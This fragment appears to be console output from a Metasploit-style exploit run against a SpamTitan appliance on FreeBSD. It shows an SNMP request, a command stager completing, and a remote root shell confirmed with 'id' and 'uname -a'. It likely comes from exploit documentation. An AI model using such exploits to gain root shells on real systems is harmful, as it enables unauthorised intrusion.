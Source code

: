 ```
[+] SNMP Get-Request response (status=noError): [1] 16743
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
^C
Abort session 3? [y/N]  y

[*] 172.16.60.101 - Command shell session 3 closed.  Reason: User exit
```
